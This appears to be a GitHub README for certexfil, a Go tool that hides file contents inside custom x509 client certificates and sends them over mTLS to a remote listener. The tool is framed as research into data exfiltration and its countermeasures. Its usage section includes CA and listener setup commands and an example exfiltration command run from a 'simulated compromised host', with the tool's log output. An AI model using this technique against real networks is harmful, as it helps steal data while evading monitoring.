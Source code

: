 # X509 Digital Certificate Exfiltration Exploration

## Overview

My extensive exploration into data exfiltration and related countermeasures has led to this initial foray into Go. The aim is to devise a swift method for transforming a payload (via file reading) into a custom x509 digital certificate.

Further details can be found at [this Medium article](https://medium.com/@jeanmichel.amblat/abusing-certificates-for-data-exfiltration-d6bff2533cd0).

For those new to certificates and mTLS, these insightful resources are recommended:

* [TLS, X509, and Mutual Authentication Explained](https://medium.com/sitewards/the-magic-of-tls-x509-and-mutual-authentication-explained-b2162dec4401)
* [A Step-by-Step Guide to mTLS in Go](https://venilnoronha.io/a-step-by-step-guide-to-mtls-in-go)

Certexfil operates in three modes: CA generation, client, and listener.

* `--ca` initializes a CA for certificate creation and authentication.
* `--payload` incorporates a file payload into a new client certificate for mTLS with a listener service.
* `--listen` launches a service that validates mTLS clients and extracts embedded payloads.

## Usage

### Setting Up CA and Listener on a Remote Server

To create `server_cert.pem` and `server_key.pem` for mTLS:

```shell
somewhere$ certexfil -ca -ecdsa-curve P521 --host remote.host.com
```

Ensure the certexfil binary and ./CERTS directory are on your remote server. Then, initiate the mTLS listener:
```shell
remoteserver$ ./certexfil --listen
```

Client or Simulated Compromised Host

Embedding output as a payload:

```shell
06:46:00 jma@wintermute Go-Workspace → echo 'w00t w00t' | certexfil --host remote.server.com  --payload -
2019/05/31 18:48:27 [*] Reading from stdin..
2019/05/31 18:48:27 [D] Payload (raw)  --> w00t w00t...	(9 bytes)
2019/05/31 18:48:27 [D] Payload (Prepare()) --> �...		(31 bytes)
2019/05/31 18:48:27 [*] Generated custom cert with payload
Oo
```
This format should make it easier to use as a README or other documentation.

## Contact

* @Sourcefrenchy
